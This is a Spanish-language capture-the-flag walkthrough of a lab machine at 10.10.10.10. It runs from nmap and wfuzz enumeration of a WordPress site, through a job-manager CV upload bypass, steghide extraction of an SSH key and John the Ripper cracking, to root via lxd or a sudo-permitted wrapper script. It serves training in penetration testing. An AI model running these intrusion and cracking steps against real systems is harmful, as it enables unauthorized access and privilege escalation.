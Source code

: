 ## Summary

- IP -> 10.10.10.10
- Ports -> TCP (22,80), UDP (idk)
- OS ->  
- Services & Applications
    - 22 -> SSH Openssh 7.2p2
    - 80 -> HTTP Apache Httpd 2.4.18 -> WordPress 4.7.3, La version mas actual de WordPress es la 6.0


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
Launchpad SSH Openssh 7.2p2 4ubuntu2.1 -> Para saber el Codename Xenial
Launchpad Apache 2.4.18 ->  Xenial

- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

❯ **nmap --script http-enum -p80 10.10.10.10 -oN WebScan** 
-   -p80 -> Indica el puerto que se quiere escanear
-   10.10.10.10 -> Dirección IP que se quiere escanear
-   -oN WebScan -> Exporta el output a un fichero en formato nmap con nombre “WebScan”
-  http-enum -> Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

Enocntramos un usuario en la pagina que se llama Takis, por lo que lo verificamos en el panel de autenticacion

Ruta tipica de WordPress
- **/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
- **/wp-login.php** Es la ruta del panel de autenticacion de WordPress
En ese panel podemos enumerar usuarios validos

- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text
- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text | grep "Job application"** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text, ademas de simplificar lo que queremos para solo ver el tiitulo

- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text | grep "Job application" | awk '{print $2}' FS=":"** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text, ademas de simplificar lo que queremos para solo ver el tiitulo. El awk nos permite delimitar por los dos puntos y asi tomaremos el segundo argumento 

Ahora nos contriumos un ciclo for para poder ver todos los titulos posibles 
- Comando -> **for i in $(seq 1 100); do curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/\$i/" | html2text | grep "Job application" | awk '{print $2}' FS=":"; done** 
Ira iterando de uno en uno hasta llegar al cien y nos mostrara todos los titulos que existan (En el $i debemos de quitarle el \\, solo se puso para que no se modificara el comando en este caso)

Ahora debemos de enumerar Plugins en el WordPress
- Comando -> **wfuzz -c --hc=404 -t 200 -w /user/share/Seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.10/FUZZ/** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 

Buscamos en Google (wordpress job manager exploit)
Miramos que podemos hacer Bypass por medio de la parte del CV, y justamente hay una seccion en la pagina en donde podemos subir un CV.

Ahora debemos de buscar un Exploit pero como es del 2017 buscaremos en la pagina de las Snapshots (Wayback machine)
https://archive.org
Ahi buscaremos la pagina Vagmour.es que cotiene el exploit que necesitaremos para poder hacer el Bypass. Lo buscaremos en Agosto del 2018

Econtramos escrito el exploit. Por lo que hacemos un archivo en nvim con la extension .py
Ahi adentro lo pegamos y modificamos los siguientes campos:
	#!/usr/bin/python3
	print ()
	range (2017,2022) agregaremos mas anos 
	website =input
	filename=input
	extensions = 'jpg', 'png', 'gif' ... Agregaremos mas extensiones 
	print()

Con ese script lo que hace es que ingresemos primero el sitio vulnerable y despues el documento a buscar. Lo que hace es Fuzzing
Direccion IP : 10.10.10.10
filename : HackerAccessGranted

Nos encuentra un archivo .jpg 

Nos guardamos la imagen y nos la traemos a nuestra ruta de trabajo
* Comando -> **exiftool HackerAccessGranted.jpg** Para ver los metadatos de la imagen
- Comando -> **strings HackerAccessGranted.jpg** Imprimir las cadenas de caracteres 
- Comando -> **strings HackerAccessGranted.jpg -n 10** Imprimir las cadenas de caracteres, listamos las cadenas que contengan mas de 10 caracteres

- Comando -> **steghide info HackerAccessGranted.jpg** Para informarme si en esa imagen hay informacion oculta, le damos 'y' y despues le damos enter, pensando que no hay passwd
- Comando -> **steghide extract -sf HackerAccessGranted.jpg** Para extraer la informacion de la imagen, enter porque no esta protegido por passwd y obtenemos la id_rsa, en este caso de esta maquina
- Comando -> **steghide embed -cf gato.jpg -ef passwd** Donde la imagen se llama gato y lo que le queremos ocultar es el /etc/passwd y podemos ponerle o no passwd 

Tenemos el id_rsa pero esta esta encriptada
- Comando -> **chmod 600 id_rsa** Es el privilegio que debe tener una id_rsa

Usaremos jhon the ripper para extraer un Hash
- Comando -> **jhon id_rsa > hash** Para poder estraer el hash y lo pasamos a un archivo llamado hash
- Comando -> **jhon -w:$(locate rockyou.txt) hash** Aplicaremos fuerza bruta al hash con el diccionario de rockyou.txt

## User
- Comando -> **ssh -i id_rsa takis@10.10.10.10** Nos conectamos por ssh teniendo un id_rsa con privilegio 600, y empleamos la passwd que encontramos con jhon

Buscamos la flag de user.txt

## Root

- **lsb_release -a** Para ver la version del Ubuntu 
- **whoami**
- **id** Y nos encontramos en el grupo **lxd** y existe una via potencial para poder escalar privilegios
- **searchsploit lxd** Buscaremos el sploit en .sh 
- **searchsploit -x /linux/local/46978.sh** Este sploit esta hecho por Savitar y seguimos los pasos

De la forma intensionada es de la siguiente manera:
- **sudo -l** Para ver los privilegios en el Sudoers (l=ele), encontraremos un script que le podemos meter 4 argumentos. 
- **/bin/fuckin whoami** Si ejecutamos eso, nos mostrara el resultado del comando whoami que es Takis

Por lo que si lo hacemo de esta manera pasa lo siguiente:
- **sudo fuckin whoami** En este caso nos muestra que es el usuario root
- **sudo fuckin bash** En este caso nos convertira en el usuario root y listo podremos buscar la flag de root